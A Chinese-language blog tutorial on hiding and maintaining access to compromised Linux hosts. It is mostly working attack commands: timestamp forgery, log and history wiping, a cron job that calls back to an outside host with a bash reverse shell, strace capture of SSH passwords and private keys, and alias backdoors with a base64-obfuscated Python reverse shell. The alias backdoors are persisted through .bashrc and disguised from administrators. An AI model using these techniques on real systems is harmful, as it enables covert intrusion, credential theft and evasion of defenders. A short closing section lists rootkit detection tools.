# 1. 前言

在上篇文章中介绍了几种权限维持的方式，感觉很多手法都是能够被发现的，或者很明显的，比如文件的落地时间，通常在运维人员在看见新文件的时候，都会去看看，文件里面写的是什么，是谁建立的，如果运维人员就一个，那么肯定被查的概率更高。

所以有时候需要适当的隐藏自己留的后门。

# 2. 隐藏手法

这里主要就讲述一些常见的隐藏手法，只要隐藏的深，那运维人员就不易发现，那么权限维持的时间就长。

## 2.1. 时间伪造

提前创建了一个1.txt的文件，我们查看一下1.txt的时间，可以明显发现格格不入，如果是运维人员看见，那么一定会去排查这个问题，那么如果这个是木马文件，那么就直接被发现了。

```
ls -l
```



### 2.1.1. 修改时间

这里我们就将时间修改一下和公共的文件夹时间一样，这里修改完就可以实现对时间的伪造。

```
touch -r 目标时间戳的文件 要修改时间戳的文件 
```



## 2.2. 隐藏文件

隐藏文件主要就是靠运维人员日常排查的相关来进行权限维持的，在Linux系统文件前面添加一个.就可以实现文件的隐藏，而如果运维人员在排查的时候仅仅使用ls，那么是很难排查到隐藏文件的。

可以看到直接使用ls是无法查看到1.txt文件的，必须使用ls -la来进行排查。

```
touch .1.txt
```



## 2.3. chattr命令

这个命令在Linux系统中是用于锁定一些重要文件，避免被删除，而我们就可以利用这个命令进行伪造，来避免文件被删除，同时也能够在一定情况下忽悠运维人员以为是系统文件，从而不去删除。

### 2.3.1. 命令参考

```
chattr 参数 文件名
a：让文件或目录仅供附加用途。
b：不更新文件或目录的最后存取时间。
c：将文件或目录压缩后存放。
d：将文件或目录排除在倾倒操作之外。
i：不得任意更动文件或目录。
s：保密性删除文件或目录。
S：即时更新文件或目录。
u：预防意外删除。
```

### 2.3.2. 属性添加

这里是要+i，不是-i，相当于是给文件添加上属性。

```
chattr +i 1.txt

```



### 2.3.3. 属性解除

这里只要将前面的+i修改成-i即可接触属性。

```
chattr -i 1.txt
```



## 2.4. 历史命令

history命令是能够查询到命令执行历史的，而在我们执行木马运行命令后，如果不删除这些命令就会出现被排查的情况，那么这时候就需要将命令隐藏也就是不记录。



### 2.4.1. 隐藏命令

其实在执行命令的时候，在命令前面添加一个空格，那么这个命令执行就不会记录到历史记录中，这个技巧如果在你的系统不管用，请查看下环境变量 `HISTCONTROL` 是否包含 `ignorespace`，貌似 centos 系统默认没有设置这个值。

```
history -c ##清除缓存
echo > ./.bash_history #彻底删除命令
```

这里我就不演示了，主要是在Linux中不知道为什么这些命令参数都无法执行。

## 2.5. 清除登录日志

这里将这些日志清除就可以避免被发现登录的IP地址等信息。

### 2.5.1. 清除登录成功日志

```
echo > /var/log/wtmp ##此文件默认打开时乱码，可查到ip等信息
last|grep root ##此时即查不到用户登录信息
```



### 2.5.2. 清除登录失败日志

```
echo > /var/log/btmp ##此文件默认打开时乱码，可查到登陆失败信息
lastb |grep root ##查不到登陆失败信息
```



# 3. 定时任务—cron后门

cron后门，主要就是利用系统的定时任务功能实现反弹shell。

## 3.1. 编辑后门反弹

这里创建一个隐藏文件，然后在隐藏文件中添加反弹shell的地址及端口，在给脚本添加一个执行权限。

```
vim /etc/.backshell.sh

#!/bin/bash
bash -i >& /dev/tcp/192.168.10.10/4444 0>&1

chmod +x /etc/.backshell.sh
```



## 3.2. 添加定时任务

设定每分钟自动执行该脚本。

```
vim /etc/crontab
*/1 * * * * root /etc/.backshell.sh
```



## 3.3. 查看反弹效果

在攻击机上监听本地的4444端口，来等待反弹shell执行。

```
nc -lvvp 4444
```



## 3.4. 查看流量

这里我们可以去目标主机上查看一下端口连接情况，可以看到是存在4444端口的连接的。

```
netstat -ant
```



# 4. 监控功能—strace后门

`strace`是个功能强大的Linux调试分析诊断工具，可用于跟踪程序执行时进程系统调用(system  call)和所接收的信号，尤其是针对源码不可读或源码无法再编译的程序。在Linux系统中，用户进程不能直接访问计算机硬件设备。当进程需要访问硬件设备(如读取磁盘文件或接收网络数据等)时，必须由用户态模式切换至内核态模式，通过系统调用访问硬件设备。`strace`可跟踪进程产生的系统调用，包括参数、返回值和执行所消耗的时间。若`strace`没有任何输出，并不代表此时进程发生阻塞；也可能程序进程正在执行某些不需要与系统其它部分发生通信的事情。`strace`从内核接收信息，且无需以任何特殊方式来构建内核。

而且strace可以当作一个键盘记录的后门。

## 4.1. 记录sshd明文

这里首先记录密码，等待用户下次使用ssh进行连接，连接后就会在你设置的这个目录中存储明文密码。

```
(strace -f -F -p `ps aux|grep "sshd -D"|grep -v grep|awk {'print $2'}` -t -e trace=read,write -s 32 2> /tmp/.sshd.log &)  ##记录ssh登录密码存储到/tmp/.sshd.log文件中。

grep -E 'read\(6, ".+\\0\\0\\0\\.+"' /tmp/.sshd.log  ##查看这个文件。
```



这里使用筛选来查找就是为了更加的方面查找到密码，否则可以去看看，该文件中登录一次的内容都很多，靠肉眼很难查找到。

## 4.2. 记录sshd私钥

```
(strace -f -F -p ps aux|grep "sshd -D"|grep -v grep|awk {'print $2'} -t -e trace=read,write -s 4096 2> /tmp/.sshd.log &)  ##这里也是同样的记录私钥到该文件中。

grep ‘PRIVATE KEY’ /tmp/.sshd.log  ##读取私钥。
```

## 4.3. 问题

这个命令文件存在一个很大的问题就是，会一直记录登陆的字节流，可以去查看一下文件，这个文件会越来越大，所以如果真实环境下，还是少用该方式吧，避免由于文件占用过大，导致硬盘报警，从而被发现。

```
ls -al /tmp/.sshd.log
```



# 5. 命令自定义-Alias后门

alias在Linux中主要是用于设置命令的别名，比如当你设置ls等于ls -al的时候就可以使用alias来实现。

## 5.1. 基础演示

可以看到原先的ls只是显示一些基础内容，而设置别名后，就会出现ls -al的执行效果。

```
alias ls='ls -al'  ##设置别名
unalias ls   ##删除别名
```


## 5.2. 基础反弹

这里修改一下反弹的shell地址与端口，同时等待运维人员输入ls命令即可。

```
#将ls设置为反弹shell
alias ls='alerts(){ ls $* --color=auto;bash -i >& /dev/tcp/192.168.10.10/4444 0>&1; };alerts'
```



### 5.2.1. 查看效果

可以看到这里是成功反弹了。

```
nc -lvvp 4444
```



### 5.2.2. 问题

这里执行ls后会成功执行命令，但是存在一个很大的问题就是ls命令会卡死，无法操作，只有攻击者将会话结束，才能够恢复。

## 5.3. 高级版反弹

这里其实就是调用python的模块来执行，利用socket反弹一个shell，同时这里是使用bash64进行加密了，届时修改的时候，可以将该密文中的IP地址及端口修改为自己的即可。

```
alias ls='alerts(){ ls $* --color=auto;python3 -c "import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'\''UTF-8'\'')}[sys.version_info[0]]('\''aW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzOwpyZXQgPSBvcy5mb3JrKCkKaWYgcmV0ID4gMDoKICAgIGV4aXQoKQplbHNlOgogICAgdHJ5OgogICAgICAgIHMgPSBzb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULCBzb2NrZXQuU09DS19TVFJFQU0pCiAgICAgICAgcy5jb25uZWN0KCgiMTkyLjE2OC4xMC4xMCIsIDQ0NDQpKQogICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSwgMCkKICAgICAgICBvcy5kdXAyKHMuZmlsZW5vKCksIDEpCiAgICAgICAgb3MuZHVwMihzLmZpbGVubygpLCAyKQogICAgICAgIHAgPSBzdWJwcm9jZXNzLmNhbGwoWyIvYmluL3NoIiwgIi1pIl0pCiAgICBleGNlcHQgRXhjZXB0aW9uIGFzIGU6CiAgICAgICAgZXhpdCgp=='\'')))";};alerts'
```



### 5.3.1. 执行命令

这里将命令别名绑定到ls命令上，这里可能会有一点小问题就是有些系统上并没有安装python3，所以我也不测试了。



### 5.3.2. 查看效果

可以看到确实是反弹过来了，不过是使用的是python，并没有指定python3，所以这里反弹回来后，并不能执行命令。

```
nc -lvvp 4444
```



### 5.3.3. 问题

这里最终的问题就是存在一个python版本问题，同时如果运维人员设定过ls命令的别名，那么你一修改，那么一定会被发现，同时该手法在重启后就不再生效了。

## 5.4. 持久化

这里就是保证系统在重启后依旧能够生效。

### 5.4.1. 修改文件

```
vim /etc/upload  #将下面的三个后门命令写入
alias ls='alerts(){ ls $* --color=auto;python -c "import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'\''UTF-8'\'')}[sys.version_info[0]]('\''aW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzOwpyZXQgPSBvcy5mb3JrKCkKaWYgcmV0ID4gMDoKICAgIGV4aXQoKQplbHNlOgogICAgdHJ5OgogICAgICAgIHMgPSBzb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULCBzb2NrZXQuU09DS19TVFJFQU0pCiAgICAgICAgcy5jb25uZWN0KCgiMTkyLjE2OC4xMC4xMCIsIDQ0NDQpKQogICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSwgMCkKICAgICAgICBvcy5kdXAyKHMuZmlsZW5vKCksIDEpCiAgICAgICAgb3MuZHVwMihzLmZpbGVubygpLCAyKQogICAgICAgIHAgPSBzdWJwcm9jZXNzLmNhbGwoWyIvYmluL3NoIiwgIi1pIl0pCiAgICBleGNlcHQgRXhjZXB0aW9uIGFzIGU6CiAgICAgICAgZXhpdCgp=='\'')))";};alerts'

alias unalias='alerts(){ if [ $# != 0 ]; then if [ $* != "ls" ]&&[ $* != "alias" ]&&[ $* != "unalias" ]; then unalias $*;else echo "-bash: unalias: ${*}: not found";fi;else echo "unalias: usage: unalias [-a] name [name ...]";fi;};alerts'

alias alias='alerts(){ alias "$@" | grep -v unalias | sed "s/alerts.*lambda.*/ls --color=auto'\''/";};alerts'
```



```
vim ~/.bashrc
#在最后面写入
if [ -f /etc/upload ]; then
	. /etc/upload
fi
```



### 5.4.2. 查看效果

没成功。

```
nc -lvvp 4444
```



# 6. 内核加载LKM-Rootkit后门

正常情况下Linux的后门多数都是使用msf来建立连接，但是这些连接都会被运维人员发现，所以我们想有一个非tcp连接、流量不容易被怀疑的后门，并且在大量的shell的场景下，可以管shell，Reptile刚好是种LKM rootkit，因此具有很好的隐藏性和强大的功能。

[reptile](https://github.com/f0rb1dd3n/Reptile/releases/)

[使用参考](https://github.com/f0rb1dd3n/Reptile/wiki)

关于这个，起初我是准备写的，但是我发现那么多服务器的内核版本都不符合这个工具的测试的范围，本地镜像我也懒得找了，同时可以去看看，其他作者写的方法，还有这个工具在2020年的时候停更了。估计也用户了多久了。

# 7. Linux检测工具

本程序旨在为安全应急响应人员对Linux主机排查时提供便利，实现主机侧Checklist的自动全面化检测，根据检测结果自动数据聚合，进行黑客攻击路径溯源。

linux平台下：chkrootkit、rkhunter、OSSEC、zeppoo等

Windows平台下：BlackLight、RootkitRevealer、Rootkit Hook Analyzer

[GScan](https://github.com/grayddq/GScan)